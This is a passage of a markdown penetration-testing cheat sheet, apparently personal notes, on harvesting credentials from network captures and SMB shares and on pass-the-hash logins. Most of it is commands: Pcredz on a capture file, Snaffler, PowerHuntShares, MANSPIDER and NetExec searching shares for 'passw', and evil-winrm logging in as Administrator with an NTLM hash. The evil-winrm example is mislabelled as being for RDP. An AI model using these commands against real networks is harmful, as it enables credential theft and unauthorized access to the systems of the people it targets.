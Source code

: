 ```bash
./Pcredz -f demo.pcapng -t -v
```

---

## 2. Credential Hunting in Network Shares

Network shares often contain sensitive files due to poor permissions or misconfigurations.

### Search Tips
- Look for keywords: `password`, `user`, `token`
- Target file types: `.cfg`, `.env`, `.ps1`, `.bat`
- Prioritize IT/admin shares

### Tools

**Snaffler (Windows)** - Finds readable shares and scans for secrets.
```bash
Snaffler.exe -s
```

**PowerHuntShares (PowerShell)** - Finds share permissions and sensitive files.
```powershell
Invoke-HuntSMBShares -Threads 100
```

**MANSPIDER (Linux)** - Searches SMB shares for keywords.
```bash
docker run blacklanternsecurity/manspider <IP> -c 'passw' -u <user> -p <pass>
```

**NetExec (Linux)** - SMB spidering and keyword matching.
```bash
nxc smb <IP> -u <user> -p <pass> --spider IT --content --pattern "passw"
```

### Tips
- Focus on IT shares first
- Use keywords and file extensions
- Validate hits — false positives are common


<br>
<br>
<br>

# Pass-the-Hash Attack Methods

## 1. Using PowerShell Remoting with Evil-WinRM
**Tool:** `evil-winrm`
*   Command example for RDP:
    ```powershell
    evil-winrm -i [target-ip] -u Administrator -H "[NTLM-hash]"
    ```
*   Note: For domain accounts, include the domain name in the username if using a domain account.
